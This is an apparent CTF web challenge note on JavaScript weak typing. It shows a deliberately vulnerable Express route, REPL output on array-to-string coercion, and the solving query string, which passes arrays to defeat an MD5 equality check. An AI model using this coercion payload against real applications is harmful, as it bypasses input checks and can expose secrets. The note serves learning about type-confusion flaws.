 tags:: CTFWEB/JS/弱类型

- ```js
  var express = require('express');
  var router = express.Router();
  var crypto = require('crypto');
  
  function md5(s) {
    return crypto.createHash('md5')
      .update(s)
      .digest('hex');
  }
  
  /* GET home page. */
  router.get('/', function(req, res, next) {
    res.type('html');
    var flag='xxxxxxx';
    var a = req.query.a;
    var b = req.query.b;
    if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    	res.end(flag);
    }else{
    	res.render('index',{ msg: 'tql'});
    }
    
  });
  
  module.exports = router;
  
  
  ```
- # 弱类型
	- ```js
	  > [] + "asdf"
	  'asdf'
	  > [1] + "asdf"
	  '1asdf'
	  > [1] + "asdf"
	  '1asdf'
	  > [undefined, 1] + "asdf"
	  ',1asdf'
	  > [1,2] + "asdf"
	  '1,2asdf'
	  > [1,2,3] + "asdf"
	  '1,2,3asdf'
	  > [1,"2,3"] + "asdf"
	  '1,2,3asdf'
	  > ["1,2",3] + "asdf"
	  '1,2,3asdf'
	  ```
	- `?a[]=1&a[]=2,3&b[]=1,2&b[]=3`
-